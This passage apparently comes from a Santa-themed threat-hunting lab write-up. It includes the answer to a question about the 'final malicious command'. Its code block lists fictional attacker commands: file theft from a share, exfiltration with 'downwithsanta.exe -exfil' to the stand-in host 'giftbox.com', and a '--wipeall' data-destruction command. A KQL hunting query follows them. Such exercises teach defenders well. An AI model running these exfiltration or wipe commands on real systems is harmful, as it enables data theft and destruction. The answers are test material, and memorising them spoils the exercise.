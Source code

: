    giftbox.com
```
Invoke-WmiMethod -ComputerName $Server -Class CCM_SoftwareUpdatesManager -Name InstallUpdates - ArgumentList (, $PendingUpdateList) -Namespace root[&ccm&]clientsdk | Out-Null

powershell.exe -c Copy-Item \\NorthPolefileshare\c$\MissionCritical\NaughtyNiceList.txt C:\Desktop\NaughtyNiceList.txt

downwithsanta.exe -exfil C:\\Desktop\\NaughtNiceList.docx \\giftbox.com\\file

C:\Windows\System32\downwithsanta.exe --wipeall \\\\NorthPolefileshare\\c$

ProcessEvents
| where hostname contains "Y1US-DESKTOP"
| where process_commandline has "powershell.exe"


```

#### Case 6: 

Wow! You decoded those secret messages with easy! You're a rockstar. It seems like we're getting near the end of this investigation, but we need your help with one more thing...

We know that the attackers stole Santa's naughty or nice list. What else happened? Can you find the final malicious command the attacker ran?


### Question 6

!!! question "Question" 

    What is the name of the executable the attackers used in the final malicious command?

    downwithsanta.exe

    What was the command line flag used alongside this executable?

    C:\Windows\System32\downwithsanta.exe --wipeall \\\\NorthPolefileshare\\c$

Congrats! You are now a fully qualified Principal Detective! 

### Images

![Terminal output](../img/objectives/o11/o11.png)
